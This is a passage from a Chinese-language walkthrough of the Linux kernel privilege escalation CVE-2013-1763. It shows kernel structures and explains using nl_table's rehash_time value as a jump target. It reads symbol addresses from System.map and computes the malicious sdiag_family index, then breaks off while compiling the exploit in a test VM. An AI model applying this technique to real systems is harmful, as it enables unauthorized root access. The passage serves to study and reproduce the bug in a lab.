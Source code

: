 ``` C
      __u8    sdiag_protocol;
      __u16   pad;
      __u32   udiag_states;
      __u32   udiag_ino;
      __u32   udiag_show;
      __u32   udiag_cookie[2];
  };

struct sock_diag_handler {
        __u8 family;//
        int (*dump)(struct sk_buff *skb, struct nlmsghdr *nlh);
};

 struct netlink_table {
         struct nl_portid_hash   hash; //取回这个值
         struct hlist_head       mc_list;
         struct listeners __rcu  *listeners;
         unsigned int            flags;
         unsigned int            groups;
         struct mutex            *cb_mutex;
         struct module           *module;
         void                    (*bind)(int group);
         int                     registered;
 };

 struct nl_portid_hash {
         struct hlist_head       *table; //四个字节
         unsigned long           rehash_time; //也是四个字节.0x00012b59//这个值在我们的那个范围内.
 
         unsigned int            mask;
         unsigned int            shift;
 
         unsigned int            entries;
         unsigned int            max_shift;
 
         u32                     rnd;
 };

static struct netlink_table *nl_table;
```
我们的牛人发现了nl_table里面有一个变量rehash_time的值正好在0x10000-0x130000这个区域内，所以可以利用这个值来跳转，只需要将`sock_diag_handlers[sdiag_family]-dump`正好落在这个值上就可以了。如下图所示

所以我们需要先知道`nl_table`和`sock_diag_handlers`的地址，可以通过以下两种方式查看。
```
cat /proc/kallsyms
sudo cat /boot/System.map-3.2.0-43-generic-pae
```
但是在ubuntu系统中前一种方法无法查看到变量函数的地址，所以只有使用第二种方法了，由于`nl_table`和 `sock_diag_handlers`都是指针，所以他们的大小都是4个字节。于是就可以计算出`sdiag_family`的取值了。
```
fengguoqing@VirtualBox:~$ sudo cat /boot/System.map-3.5.0-17-generic |grep nl_table
c189b5c0 d nl_table_lock
c189b5c4 d nl_table_wait
c1a488e0 b nl_table_users
c1a488e4 b nl_table
fengguoqing@VirtualBox:~$ sudo cat /boot/System.map-3.5.0-17-generic |grep sock_diag_handlers
c1a487a0 b sock_diag_handlers
(0xc1a488e4 - 0xc1a487a0) / 4 = 81L
```
至此所有的谜题都解开了，然后就可以高高兴兴的黑自己一把了:
```
fengguoqing@VirtualBox:~/Downloads$ gcc -o CVE-2013-1763 CVE-2013-1763.c
CVE-2013-1763.c: In function ‘main’:
```